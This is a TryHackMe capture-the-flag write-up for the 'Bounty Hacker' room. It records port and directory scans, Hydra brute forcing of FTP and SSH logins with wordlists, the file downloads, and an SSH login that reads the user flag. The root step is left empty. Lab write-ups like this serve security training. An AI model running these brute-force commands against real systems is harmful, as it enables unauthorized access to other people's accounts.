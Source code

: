 # Bounty Hacker

IP: 10.10.0.34

1. Nmap Scan

    * Open Ports:

```
21 -- ftp
22 -- ssh
80 -- webpage
```

2. Dirbuster Scan

    * Directories found:

```
/images
/icons -- 404
/icons/small -- 403
```

3. Enum4linux

```
Known Usernames .. administrator, guest, krbtgt, domain admins, root, bin, none
```

4. Hydra on user *ftp* 
```bash
hydra -l ftp -P /usr/share/wordlists/rockyou.txt ftp://10.10.0.34

[21][ftp] host: 10.10.0.34   login: ftp   password: 123456
[21][ftp] host: 10.10.0.34   login: ftp   password: 12345
[21][ftp] host: 10.10.0.34   login: ftp   password: 123456789
[21][ftp] host: 10.10.0.34   login: ftp   password: 1234567
[21][ftp] host: 10.10.0.34   login: ftp   password: babygirl
[21][ftp] host: 10.10.0.34   login: ftp   password: monkey
[21][ftp] host: 10.10.0.34   login: ftp   password: jessica                                   
[21][ftp] host: 10.10.0.34   login: ftp   password: password                                  
[21][ftp] host: 10.10.0.34   login: ftp   password: iloveyou                                  
[21][ftp] host: 10.10.0.34   login: ftp   password: princess                                  
[21][ftp] host: 10.10.0.34   login: ftp   password: rockyou                                   
[21][ftp] host: 10.10.0.34   login: ftp   password: 12345678                                  
[21][ftp] host: 10.10.0.34   login: ftp   password: abc123
[21][ftp] host: 10.10.0.34   login: ftp   password: nicole
[21][ftp] host: 10.10.0.34   login: ftp   password: daniel
[21][ftp] host: 10.10.0.34   login: ftp   password: lovely
```

5. Ftp -- transfering over target's files
```
ftp> open
(to) 10.10.0.34
ftp> user
(username) ftp
ftp> get
(remote-file) task.txt
(local-file) task.txt
ftp> get
(remote-file) locks.txt
(local-file) locks.txt
```

6. Hydra on user *lin* for SSH credentials

    - ssh -- lin:RedDr4gonSynd1cat3
```
hydra -l lin -P locks.txt 10.10.0.34 -t 4 ssh

[22][ssh] host: 10.10.0.34   login: lin   password: RedDr4gonSynd1cat3
```

7. SSH into the machine and user flag found

    - user flag -- THM{CR1M3_SyNd1C4T3}
```
ssh lin@10.10.0.34
ls
cat user.txt

THM{CR1M3_SyNd1C4T3}
```

8. root access


---
[back to TryHackMe main page](thm.md)

[back to Index/Table of Contents](index.md)
